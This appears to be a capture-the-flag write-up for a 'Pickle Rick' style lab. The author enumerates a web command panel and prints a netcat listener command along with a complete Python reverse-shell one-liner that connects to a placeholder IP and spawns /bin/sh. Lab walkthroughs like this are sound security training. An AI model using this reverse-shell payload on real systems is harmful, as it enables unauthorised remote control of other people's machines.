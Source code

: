 > command : whoami

> output : www- data

This confirms that we can run commands and that we are dealing with a Linux based command panel.

The next command i ran was a ls command to see if there was any files of importance. 

> command: ls

> output : 

> Sup3rS3cretPickl3Ingred.txt

> assets

> clue.txt

> denied.php

> index.html

> login.php

> portal.php

> robots.txt

Bingo, several files instantly stand out. Focusing on the **Sup3rS3cretPickl3Ingred.txt** file first. I attempted to cat the file out, however this returned that the command was disabled, the make it harder for PICKLEEEE RICCCKKK... shame

As this was a very restrictive way to interact with the system and to many commands was disabled,  i attempted to gain a reverse shell. 

### Reverse shell

I first identified if there was python3 on the system, running the command which python3 returned that there was python3 on the system.

> Command: which python3

> Output /usr/bin/python3


I am using a python reverse shell from pentestmonkey.net while using netcat to listen. 

#### Listener

Using the command 

> nc -lvnp 8080

Sets up netcat to listen for incoming connections on port 8080,

#### Reverse shell

The reverse shell i am using

> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-HERE",PORT HERE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
